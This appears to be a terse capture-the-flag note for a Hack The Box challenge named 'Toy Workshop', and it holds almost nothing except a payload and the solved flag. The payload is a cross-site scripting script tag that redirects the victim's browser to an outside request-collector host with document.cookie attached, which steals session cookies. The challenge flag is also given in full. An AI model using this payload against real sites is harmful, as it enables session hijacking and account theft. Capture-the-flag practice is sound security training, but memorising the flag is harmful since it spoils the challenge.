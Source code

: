# Toy Workshop
payloads: <script tyle="text/javascript">document.location='https://enyk2dcb07mwp3e.m.pipedream.net/?c='+document.cookie;</script>   
flag: HTB{3v1l_3lv3s_4r3_r1s1ng_up!}
